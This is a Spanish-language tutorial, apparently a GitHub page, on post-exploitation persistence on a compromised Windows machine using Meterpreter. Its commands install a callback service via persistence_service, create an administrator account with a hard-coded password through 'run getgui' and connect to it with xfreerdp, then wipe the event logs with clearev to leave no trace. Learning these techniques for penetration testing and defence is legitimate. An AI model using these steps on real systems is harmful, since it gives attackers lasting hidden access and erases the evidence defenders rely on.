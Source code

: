 <h1 align="center">PERSISTENCIA EN WINDOWS</h1>

La persistencia permite mantener el acceso a un sistema vulnerado incluso después de reinicios o cambios en las contraseñas de los usuarios. Para implementar la persistencia, necesitamos tener privilegios elevados en el sistema comprometido

## **Persistencia con el Módulo persistence_service**

Poner la Sesión de Meterpreter en Segundo Plano y buscar el Módulo de Persistencia

- search persistence_service

Establece la sesión y el payload correspondiente. Este módulo lo que hace es crear un servicio para la máquina víctima que continuamente solicita la conexión por el puerto asignado. Puedes verificar que la persistencia está funcionando matando todas las sesiones de Meterpreter y poniéndote a la escucha con multi/handler asignando el mismo payload y puerto que antes

- sessions -k
- use multi/handler

##

## **Persistencia vía RDP**

Si deseas establecer la persistencia a través del protocolo RDP, lo puedes hacer de un solo comando en meterpreter

- run getgui -e -u alexis -p hacker_123321
  - **run getgui**: Verifica si el servicio RDP está habilitado. Si no lo está, lo habilita.
  - **\-e**: Ejecuta la creación del usuario alexis con la contraseña hacker_123321 y lo añade al grupo de administradores.

Ahora, puedes usar la herramienta xfreerdp para conectarte al nuevo usuario creado a través de una interfaz grafica:

- xfreerdp /v:&lt;ip&gt; /u:alexis /p:hacker_123321

##

## **Borrar el Visor de Eventos para No Dejar Rastro**

Para eliminar las huellas de las actividades realizadas, puedes borrar los eventos del visor de eventos utilizando el siguiente comando en Meterpreter:

- clearev
